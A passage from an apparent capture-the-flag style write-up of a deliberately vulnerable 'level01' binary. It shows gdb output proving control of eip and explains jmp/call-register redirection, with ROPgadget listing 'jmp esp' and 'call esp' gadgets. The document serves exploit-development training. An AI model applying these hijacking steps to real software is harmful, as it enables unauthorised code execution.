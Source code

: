 ebp            0x41356541 0x41356541
esi            0xbff96dd9 -1074172455
edi            0x8049ed1  134520529
eip            0x65413665 0x65413665
eflags         0x10246  [ PF ZF IF RF ]
cs             0x73 115
ss             0x7b 123
ds             0x7b 123
es             0x7b 123
fs             0x0  0
gs             0x33 51
(gdb)
{% endhighlight %}

The attacker can control the value of `eip` from the bytes at offset 139 into the path buffer. The `esp` register points to offset 143 in the path buffer and the `esi` register points to offset 0 the second pattern. In level00 the second pattern is where is the payload was sent, assuming the payload will be transmitted in the same way, `esi` points to the start of the payload.

## Which way to jump
---

Using the `jmp reg` technique an attacker can execute instructions at an address specified by a register. Since the attacker controls the data that `esp` and `esi` points at, they can execute arbitrary instructions using either a `jmp esp` or `jmp esi` instruction.

First try the `esi` register because it points directly at the payload. The level01 binary is not compiled as position indepedent code causing all the instructions to have static addresses. The attacker can rely on these memory addresses for instructions, such as the `jmp esi`. ROPGadget by Jonathan Salwan is a tool to find desirable sets of instructions, or gadgets.

Use ROPGadget to find all `jmp` instructions:

{% highlight bash %}
pwf@ubuntu:~$ ROPgadget --binary level01 --only "jmp"
Gadgets information
============================================================
0x08049f4f : jmp esp

Unique gadgets found: 1
{% endhighlight %}

No `jmp` instructions for `esi`. Instead try finding a `call` instruction instead:

{% highlight bash %}
Unique gadgets found: 1
pwf@ubuntu:~$ ROPgadget --binary level01 --only "call"
Gadgets information
============================================================
0x080499d4 : call 0x8049a48
0x0804a023 : call dword ptr [ebx]
0x08048c1f : call eax
0x08049f0f : call esp

Unique gadgets found: 4
{% endhighlight %}
